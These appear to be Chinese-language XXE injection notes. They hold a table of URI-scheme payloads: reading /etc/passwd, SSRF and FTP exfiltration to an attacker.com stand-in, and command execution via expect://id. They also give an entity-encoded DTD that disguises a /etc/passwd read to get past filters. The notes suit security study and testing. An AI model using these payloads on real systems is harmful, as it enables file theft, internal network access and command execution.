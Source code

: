 | **协议** | **格式示例** | **用途说明** | **适用环境** |
| --- | --- | --- | --- |
| **`file://`** | `file:///etc/passwd` | 读取服务器本地文件 | 所有 |
| **`http://`** | `http://attacker.com/` | 发起 HTTP 请求（SSRF） | 所有 |
| **`ftp://`** | `ftp://attacker.com/file` | 通过 FTP 读取文件或外泄数据 | 多数 |
| **`https://`** | `https://internal.api/data` | 发起 HTTPS 请求 | 多数 |
| **`php://filter`** | `php://filter/convert.base64-encode/resource=index.php` | 读取 PHP 文件并编码输出（避免解析） | PHP |
| **`data://`** | `data://text/plain;base64,SSBsb3ZlIFBIUAo=` | 在 URI 中直接嵌入数据 | PHP (需 `allow_url_include=On`) |
| **`expect://`** | `expect://id` | 执行系统命令 | PHP (需启用 expect 扩展) |
| **`gopher://`** | `gopher://attacker.com:80/_GET%20/index HTTP/1.1` | 发起自定义协议请求（强大SSRF） | 多数 (需支持) |
| **`jar://`** | `jar:file:///path/to/archive.zip!/file.txt` | 读取 ZIP/JAR 包中的文件 | Java |
| **`netdoc://`** | `netdoc:///etc/passwd` | 类似 `file://`，读取文件 | Java |

### 特有

**PHP 环境特有**

- **`php://filter`**：用于读取文件并进行过滤（如 Base64 编码）。
- **`php://input`**：允许访问原始 POST 数据（需 `allow_url_include=On`）。
- **`expect://`**：执行系统命令（需安装并启用 `expect` 扩展）。
- **`data://`**：嵌入数据 URI（需 `allow_url_include=On`）。

**Java 环境特有**

- **`jar://`**：访问 JAR/ZIP 文件中的条目。
- **`netdoc://`**：替代 `file://` 的协议，用于读取文件。
- **`mailto://`**：发送邮件（较少用）。

**.NET 环境特有**

- **`netfx://`**：.NET 特定协议（较少在 XXE 中利用）。

## 绕过

1. 编码：URL/XML实体编码
    
    XML实体：
    
    ```php
    <!ENTITY xxe SYSTEM "file:///etc/passwd">
    
    <!DOCTYPE foo [
      <!ENTITY % aname "&#x46;&#x49;&#x4C;&#x45;:////&#x65;&#x74;&#x63;/&#x70;&#x61;&#x73;&#x73;&#x77;&#x64;">
      <!ENTITY % cname "<!ENTITY &#x25; dtd SYSTEM '%aname;'>">
      %cname;
      %dtd;
    ]>
    ```
    